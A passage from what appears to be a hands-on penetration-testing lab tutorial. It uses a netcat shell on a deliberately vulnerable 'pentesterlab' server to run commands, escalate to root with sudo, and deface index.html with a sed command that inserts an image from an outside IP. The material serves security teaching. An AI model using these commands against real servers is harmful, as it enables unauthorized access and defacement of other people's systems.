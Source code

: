 **\
**

**Step 4:** Execute commands on the server!

Go back to the NC listener terminal from step 2 and type the following
command

-   *id*

If it says uid=1000(pentesterlab) gid=50(staff)
groups=50(staff),100(pentesterlab), you have successfully executed a
command on the server. **You just hacked into the server!**

This proves the vulnerability, but you need something a little more
permanent to prove the vulnerability to the developer. Let’s deface the
webpage.

**Exploit the server**: 

Go back to the NC Listener terminal from step 2.

-   *whoami*

response: pentesterlab

Let’s check who owns index.html

-   *ls -alk /var/www/index.html*

response: -rwxr-xr-x    1 root     root          1704 Sep 25  2014
/var/www/index.html

It’s root!  We need to get root privileges.  Let’s see if we can sudo up
to root.

-   *sudo –s*

-   *whoami*

*response: root*

**now let’s modify the index.html file** to add evidence of our
successful compromise.

We’re going to add a button to the web page that you can write your name
on- and then we’ll add an image to the page that makes it obvious that
the site was vulnerable. You can copy and paste parts of this command
from the trickserver2.sh file:

1.  *more trickserver2.sh*

2.  Highlight the line you see below from the file, right click &
    select copy.

    -   *sed -i '60i&lt;button&gt;\[YOURNAME\] WAS HERE!&lt;img
        src="http://192.168.64.10/defcon.gif" height="548"
        width="972"&gt;&lt;/button&gt;' /var/www/index.html*

3.  Right click on the command line & select Paste.

